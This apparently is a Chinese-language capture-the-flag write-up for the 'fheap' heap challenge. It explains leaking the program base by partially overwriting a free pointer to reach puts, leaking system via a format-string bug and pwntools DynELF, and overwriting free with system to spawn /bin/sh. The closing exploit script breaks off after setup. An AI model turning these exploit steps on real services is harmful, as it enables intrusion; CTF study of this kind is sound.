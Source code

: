 ### 三. 思路总结

**保护检查**

![](./03.png)

**总体思路:** 泄露程序基地址, 找出system函数地址. 将free地址覆盖为`system`, 输入`/bin/sh`, 释放.

**First Step : 泄露程序基地址**
> `objdump -d fheap > fheap.txt`
```
freeShort(offset): 0xd52
freeLong(offset): 0xd6c
d2d:	e8 5e fc ff ff       	
callq  990 <puts@plt>
```
可以看出, 两个`free`函数与`0xd2d`只相差一个字节, 于是我们可以将`free`函数的最后一个字节修改为`0x2d`, 从而调用`puts`函数, 将字符串和`callq  990`这条指令的地址一块打印出来, 然后减去`0xd2d`, 就是整个程序加载的基地址.

---------

**泄露system函数地址**

> 利用格式化字符串漏洞, 以及`pwntools`模块的`DynELF`来找出`system`函数地址.
```
def leak(addr):
	delete(0)
	data = 'aa%9$s' + '#' * (0x18 - len('aa%9$s')) + p64(print_plt)
	create(0x20, data)
	p.recvuntil("quit")
	p.send("delete ")
	p.recvuntil("id:")
	p.sendline(str(1))
	p.recvuntil('sure?:')
	p.send("yes0123" + p64(addr))
	p.recvuntil('aa')
	data = p.recvuntil("####")[:-4]
	data += "\x00"
	return data
```
**最后一步**
> 发送"/bin/sh", 用system函数覆盖free函数.
```
payload = '/bin/sh\x00' + '#' * (0x18 - len('/bin/sh\x00')) + p64(system_addr)
```
### EXP
```
from pwn import *
from ctypes import *

DEBUG = 1
# context(log_level='debug')
# context.log_level = 'debug'
if DEBUG:
	 p = process('./fheap')
else:
	 r = remote('172.16.4.93', 13025)

print_plt=0

```